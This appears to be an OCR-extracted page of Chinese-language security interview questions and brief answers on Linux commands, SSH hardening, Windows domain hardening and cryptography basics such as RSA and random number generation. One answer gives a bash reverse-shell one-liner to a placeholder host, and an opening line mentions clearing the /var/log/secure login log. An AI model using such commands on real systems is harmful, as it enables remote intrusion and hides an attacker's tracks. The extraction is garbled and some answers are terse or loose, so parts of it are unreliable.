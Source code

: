     登录日志清除 /var/log/secure

        LINUX

        查看当前端口连接的命令有哪些？netstat 和 ss 命令的区别和优缺点

      <pre>`netstat -antp` `ss -l
    `</pre>

    ss的优势在于它能够显示更多更详细的有关TCP和连接状态的信息，而且比netstat更快速更高效。

        反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么?

      <pre>`bash -i&gt;&amp;/dev/tcp/x.x.x.x/4444 0&gt;&amp;1
    `</pre>

    通过Linux系统的/proc目录 ，能够获取到哪些信息，这些信息可以在安全上有哪些应用？

      <pre>`ls /proc
    `</pre>

    系统信息，硬件信息，内核版本，加载的模块，进程

        linux系统中，检测哪些配置文件的配置项，能够提升SSH的安全性。

    /etc/ssh/sshd___configiptables配置

        如何一条命令查看文件内容最后一百行

      <pre>`tail -n 100 filename

Windows

    如何加固一个域环境下的Windows桌面工作环境？请给出你的思路。
## 5、密码学

AES／DES的具体工作步骤

    RSA算法

加密:

    密文＝明文^EmodN

RSA加密是对明文的E次方后除以N后求余数的过程

    公钥＝(E,N)

解密:

    明文＝密文^DmodN 私钥＝(D,N)

三个参数n,e1,e2

n是两个大质数p,q的积

    分组密码的加密模式

    如何生成一个安全的随机数？

引用之前一个学长的答案，可以通过一些物理系统生成随机数，如电压的波动、磁盘磁头读/写时的寻道时间、空中电磁波的噪声等。

    SSL握手过程
